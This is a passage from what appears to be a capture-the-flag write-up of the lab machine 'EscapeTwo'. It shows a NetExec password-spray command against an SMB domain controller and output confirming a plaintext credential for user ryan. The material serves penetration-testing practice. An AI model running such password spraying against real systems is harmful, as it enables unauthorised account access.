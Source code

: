 and grab another password here.

![alt text](../assets/images/escapetwo11.png)

Lets do password spray.

```bash
➜  escapetwo nxc smb 10.10.11.51 -u users.txt -p 'WqSZAF6CysDQbGb3'                 
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
[SNIP]
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 
```

its work ryan and .

![alt text](../assets/images/escapetwo12.png)
